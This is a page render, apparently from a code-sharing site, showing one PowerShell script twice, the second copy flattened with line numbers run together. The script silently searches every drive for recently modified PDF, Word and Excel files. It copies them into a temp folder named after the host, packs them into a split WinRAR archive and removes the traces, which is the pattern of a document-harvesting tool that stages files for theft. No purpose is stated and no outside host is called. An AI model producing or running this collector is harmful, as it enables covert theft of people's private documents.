 
PowerShell


[int] $res = 0
if(!(($args.count -eq 1) -and ([int]::TryParse($args, [ref]$res)))){
   exit
}

$lte = (Get-date).AddDays(-$res)
$hostname = $env:computername + "_"
$pt=Split-Path -Parent $MyInvocation.MyCommand.Definition

if (!(Test-Path -path "$env:tmp\\$hostname")){
   mkdir "$env:tmp\$hostname"
}

$d = Get-Wmiobject -Class Win32_logicaldisk | where size -gt 0 | select-object -ExpandProperty DeviceID
foreach($i in $d){
   if ($i -eq "C:"){
       $fp1 = dir c:\\users -File -Recurse -Include '*.pdf', '*.doc', '*.docx', '*.xls', '*.xlsx' | where LastWriteTime -gt $lte | sort LastWriteTime -Descending | %{$_.FullName}
       write-output $fp1 >> "$env:tmp\$hostname\path.txt"
       $fp1 | copy-item -Destination "$env:tmp\$hostname" -Force -ErrorAction SilentlyContinue
   } else{
       $fp2 = dir $i\ -File -Recurse -Include '*.pdf', '*.doc', '*.docx', '*.xls', '*.xlsx' | where LastWriteTime -gt $lte | sort LastWriteTime -Descending | %{$_.FullName}
       write-output $fp2 >> "$env:tmp\$hostname\path.txt"
       $fp2 | copy-item -Destination "$env:tmp\$hostname" -Force -ErrorAction SilentlyContinue
   }
}

C:'\Program Files\'WinRAR\rar.exe a -v200m "$env:tmp\$hostname.rar" "$env:tmp\$hostname" -ep

remove-item -path "$env:tmp\$hostname" -Recurse

move-item -path "$env:tmp\$hostname.*" "$pt"  -Force -ErrorAction SilentlyContinue




12345678910111213141516171819202122232425262728293031

[int] $res = 0if(!(($args.count -eq 1) -and ([int]::TryParse($args, [ref]$res)))){   exit} $lte = (Get-date).AddDays(-$res)$hostname = $env:computername + "_"$pt=Split-Path -Parent $MyInvocation.MyCommand.Definition if (!(Test-Path -path "$env:tmp\\$hostname")){   mkdir "$env:tmp\$hostname"} $d = Get-Wmiobject -Class Win32_logicaldisk | where size -gt 0 | select-object -ExpandProperty DeviceIDforeach($i in $d){   if ($i -eq "C:"){       $fp1 = dir c:\\users -File -Recurse -Include '*.pdf', '*.doc', '*.docx', '*.xls', '*.xlsx' | where LastWriteTime -gt $lte | sort LastWriteTime -Descending | %{$_.FullName}       write-output $fp1 >> "$env:tmp\$hostname\path.txt"       $fp1 | copy-item -Destination "$env:tmp\$hostname" -Force -ErrorAction SilentlyContinue   } else{       $fp2 = dir $i\ -File -Recurse -Include '*.pdf', '*.doc', '*.docx', '*.xls', '*.xlsx' | where LastWriteTime -gt $lte | sort LastWriteTime -Descending | %{$_.FullName}       write-output $fp2 >> "$env:tmp\$hostname\path.txt"       $fp2 | copy-item -Destination "$env:tmp\$hostname" -Force -ErrorAction SilentlyContinue   }} C:'\Program Files\'WinRAR\rar.exe a -v200m "$env:tmp\$hostname.rar" "$env:tmp\$hostname" -ep remove-item -path "$env:tmp\$hostname" -Recurse move-item -path "$env:tmp\$hostname.*" "$pt"  -Force -ErrorAction SilentlyContinue
